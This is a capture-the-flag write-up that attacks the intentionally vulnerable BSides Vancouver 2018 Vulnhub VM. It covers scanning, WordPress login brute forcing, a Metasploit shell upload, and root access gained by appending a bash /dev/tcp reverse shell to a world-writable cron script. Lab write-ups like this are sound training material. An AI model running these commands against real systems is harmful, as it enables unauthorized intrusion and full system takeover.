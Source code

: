 ```yaml
---
title: CTF Writeup | Besides_Vancouver2018
tags: CTF
---
```


Besides_Vancouver2018 is a linux VM , that has several vulnerabilities, written by [*abatchy*](https://www.vulnhub.com/author/abatchy,393/). You can find it at [Vulnhub](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/).

Boot2root challenges aim to create a safe environment where you can perform real-world penetration testing on an (intentionally) vulnerable target.

## Discovery

First we do host discovery scan at our network.

![host discovery](/assets/images/ctf-writeup-besides-vancouver2018/host-discovery.png)

We can see there's a working http service.

![http](/assets/images/ctf-writeup-besides-vancouver2018/http.png)


Let's try to apply dictionary attack against server content, using **dirb** tool.

```
root@kali:~# dirb http://192.168.1.8/
```

See that ! There're 7 objects.
```
---- Scanning URL: http://192.168.1.8/ ----
+ http://192.168.1.8/.bash_history (CODE:200|SIZE:1090)
+ http://192.168.1.8/cgi-bin/ (CODE:403|SIZE:288)  
+ http://192.168.1.8/index (CODE:200|SIZE:177)      
+ http://192.168.1.8/index.html (CODE:200|SIZE:177)
+ http://192.168.1.8/robots (CODE:200|SIZE:43)       
+ http://192.168.1.8/robots.txt (CODE:200|SIZE:43)
+ http://192.168.1.8/server-status (CODE:403|SIZE:293)
```

## Scanning

It's time to start automaic scanner for potential problems and security vulnerabilities, nikto can handle that!
```
root@kali:~# nikto -h 192.168.1.8
```
Here's output.
```
+ Server: Apache/2.2.22 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, inode: 2140, size: 177, mtime: Sat Mar  3 21:17:59 2018
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.26
+ Uncommon header 'link' found, with contents: </backup_wordpress/?rest_route=/>; rel="https://api.w.org/"
+ Entry '/backup_wordpress/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
```

Here's the directory /backup_wordpress is of interest, it seems to be the home directory of a wordpress blog.

What about the users login !
```
root@kali:~# wpscan --url http://192.168.1.8/backup_wordpress --enumerate u
```
```
[+] Identified the following 2 user/s:
    +----+-------+------+
    | Id | Login | Name |
    +----+-------+------+
    | 1  | admin | admi |
    | 2  | john  | joh  |
    +----+-------+------+
```

**Admin** and **john** , are valid logins here. Thanks you WordPress !

Now let’s see if we can get even luckier with brute-forcing the password.

```
root@kali:~# wpscan --url http://192.168.1.8/backup_wordpress --wordlist /usr/share/wordlists/dirb/big.txt --thread 2
```

![brute force](/assets/images/ctf-writeup-besides-vancouver2018/bruteforce.png)

Awesome ! unknown response for login: **john** and password: **enigma**.

With access to the WordPress account , we can now upload anything to the server and have it run .
Get shell out of this seems very awesome !

Metasploit Framework can help us to handle this scenario.

## Exploitation
```
msf > use unix/webapp/wp_admin_shell_upload
```

Editing module's options; login, password, rhost and targeturi (since WordPress is not located in /var/www/html)


```
msf exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME john
USERNAME => john
msf exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD enigma
PASSWORD => enigma
msf exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /backup_wordpress
TARGETURI => /backup_wordpress
msf exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.1.8
RHOST => 192.168.1.8
msf exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

With correct options' parameters , you will gain meterpreter shell.

```
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
```
www-data@bsides2018:/var/www/backup_wordpress/wp-content/plugins/IVLUgBLIBB$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now we spawn a bash shell and get into the system. But we need **root** access !

I suggest scanning for privilege escalation, by running **unix-privesc-check** on remote host,we can see if there're vulnerabilities. Let's upload the file to a running apache server on local host.
```
root@kali:~# service apache2 start
www-data@bsides2018:/tmp$ wget http://192.168.1.7/unix-privesc-check
```

Search the output below for the word 'WARNING'.  If you don't see it then
```
www-data@bsides2018:/tmp$ ./unix-privesc-check standard
WARNING: /usr/local/bin/cleanup is run from crontab as root. World write is set for /usr/local/bin/cleanup
```
Good job ! We found a privilege escalation scenario .

```
www-data@bsides2018:/tmp$ ls -l /usr/local/bin
-rwxrwxrwx 1 root root 55 May 24 05:54 cleanup
```

The file has execution, modification permissions and ownrship of root. After exploring crontab , I've seen that the cleanup file is executed every one minute.

```
# m h dom mon dow user	 command
*  *    * * *     root    /usr/local/bin/cleanup
```

Our target now is to forward a reverse shell to gain root access.
So , start listening for that forwarded shell.

```
root@kali:~# nc -lvvp 55555
```

Hence, edit the targeted file (cleanup) to start forwarding.
```
www-data@bsides2018:/usr/local/bin$ echo 'bash -i >& /dev/tcp/192.168.1.7/55555 0>&1' >> cleanup
```

The '**>&**' to initialize interactive shell and '**0>&1**' to swap stdin into stdout. Linux has built-in tcp forwarding ,hence we supply the attacker host IP with listening port.

Eventually, congratulations ! You gain root access.
```
root@bsides2018:~# id
uid=0(root) gid=0(root) groups=0(root)
```
```
root@bsides2018:~# cat flag.txt
Congratulations!

If you can read this, that means you were able to obtain root permissions on this VM.
You should be proud!

There are multiple ways to gain access remotely, as well as for privilege escalation.
Did you find them all?

@abatchy17
```

Thanks!
